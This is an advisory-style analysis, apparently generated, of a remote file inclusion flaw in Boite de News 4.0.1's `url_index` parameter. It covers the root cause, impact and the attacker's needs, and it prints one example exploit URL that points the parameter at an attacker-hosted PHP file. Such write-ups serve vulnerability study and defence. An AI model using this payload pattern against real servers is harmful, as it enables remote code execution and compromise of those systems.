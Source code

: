 Based on the provided content, here's an analysis of the vulnerability:

**Root Cause of Vulnerability:**
The root cause is a remote file inclusion vulnerability in the `index.php` file of Boite de News version 4.0.1. The application improperly handles the `url_index` parameter, allowing an attacker to include a remote file.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The primary vulnerability is the ability to include a remote file by manipulating the `url_index` parameter in the `index.php` script. This allows an attacker to execute arbitrary code from a malicious server.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** By including a malicious PHP file, the attacker can execute arbitrary code on the server hosting the vulnerable application. This can lead to full system compromise, data theft, or defacement.

**Attack Vectors:**
- **HTTP GET Request:** The vulnerability is triggered by sending a crafted HTTP GET request to `index.php` with the malicious `url_index` parameter.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs to be able to send HTTP requests to the vulnerable server.
- **Malicious Server:** The attacker needs to host a malicious PHP file on a server they control and be able to provide a URL to that server in the `url_index` parameter.

**Technical Details:**
The exploit is triggered by accessing a URL similar to this: `http://[Target]/[Path]/boitenews4/index.php?url_index=http://cmd.gif?`
- `[Target]` is the domain of the server running the vulnerable Boite de News application.
- `[Path]` is the path to the `boitenews4` directory.
- `http://cmd.gif?` is a placeholder for the URL to the attacker's controlled server that hosts the malicious PHP code that will be included.

This is a typical Remote File Inclusion (RFI) vulnerability.